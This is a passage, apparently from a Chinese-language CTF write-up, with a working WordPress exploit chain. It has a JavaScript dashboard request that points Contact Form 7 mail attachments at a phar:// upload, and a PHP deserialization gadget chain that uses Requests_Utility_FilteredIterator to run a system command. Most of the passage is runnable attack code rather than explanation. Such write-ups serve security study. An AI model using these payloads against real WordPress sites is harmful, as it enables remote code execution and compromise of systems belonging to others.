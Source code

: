 ```javascript
        "hidden_post_password": "",
        "hidden_post_visibility": "public",
        "visibility": "public",
        "post_password": "",
        "mm": "12",
        "jj": "22",
        "_thumbnail_id": "-1",
        "advanced_view": "1",
        "comment_status": "open",
        "ping_status": "open",
        "post_name": "",
        "metakeyinput":"mail",
        "metavalue[subject]": "test \"[your-subject]\"",
        "metavalue[sender]": "2",
        "metavalue[recipient]": "ccreater@172.16.8.6:60000",
        "metavalue[body]": "From: [your-name] <[your-email]>\\nSubject: [your-subject]\\n\\nMessage Body:\\n[your-message]\\n\\n-- \\n",
        "metavalue[additional_headers]": "Reply-To: [your-email]",
        "metavalue[attachments]": "phar://./wp-content/uploads/2020/12/phar.jpg",
        "metavalue[use_html]": "false",
        "metavalue[exclude_blank]": "false",
		"metakeyselect":"#NONE#"
        
    }
}
jQuery.ajax(settings).done(function (response) {
    console.log(response);
});
```

在dashboard那里执行这个js

成功写入`mail`:

![image8421](https://raw.githubusercontent.com/Explorersss/photo/master/20201208232404.png)



因为没有`_form`属性（上面那个设置postmeta的一次只能设置一个），所以我们要手动提交`jQuery(".wpcf7-form").submit()`，接着就可以读取文件和反序列化了



## 反序列化



```php
<?php

namespace Kigkonsult\Icalcreator{
    class Vtimezone{
        public $timezonetype;
        public $components;
        public function __construct($val)
        {
            $this->components = $val;
        }
    }
}
namespace {

	require( 'wp-load.php' );  //???????
	require_once( dirname( __FILE__ ) . '/wp-includes/Requests/Utility/FilteredIterator.php' );
	$arr  = array(
		"1" => "/readflag>/tmp/2.log"  //payload
	);
	$obj_ = new Requests_Utility_FilteredIterator( $arr, "system" );
```